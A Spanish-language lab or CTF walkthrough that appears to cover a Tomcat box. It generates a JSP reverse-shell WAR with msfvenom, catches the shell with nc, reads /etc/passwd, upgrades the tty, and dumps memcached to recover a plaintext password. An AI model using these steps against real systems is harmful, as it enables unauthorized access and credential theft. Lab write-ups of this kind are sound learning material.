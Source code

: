 ## *MSFVENOM*

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.55 LPORT=443 -f war -o shell.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
Saved as: shell.war


lo subimos a la web y nos ponemos a la escucha con nc 

❯ nc -vnlp 443
listening on [any] 443 ...
connect to [192.168.0.55] from (UNKNOWN) [192.168.2.242] 46710
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

accedemos como el usuario tomcat

miramos el /etc/passwd para ver los usuarios

cat /etc/passwd| grep sh$
root:x:0:0:root:/root:/bin/bash
tridente:x:1000:1000:Poseidon Perez,,,:/home/tridente:/bin/bash

hacemos un tratamineto de la tty lo hago con python que no me da problemas
python -c 'import pty;pty.spawn("/bin/bash")
ctrl +z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
stty rows 57 columns 212

## Pivoting User

si le hacemos un ps aux verermos que usa memcached

~~~
/usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1
~~~

probaremos a entrar nc localhost 11211

stats veremos el listado

con stats cachedump 1 100

nos hace un volcado de memoria y veremos mas informacion

con get y el item que queremos nos lo reportara

~~~
stats cachedump 1 100
ITEM email [17 b; 0 s]
ITEM Name [14 b; 0 s]
ITEM password [18 b; 0 s]
ITEM username [8 b; 0 s]
END
get Name
VALUE Name 0 14
Poseidon Perez
END
get password
VALUE password 0 18
N3ptun0D10sd3lM4r$
END
~~~
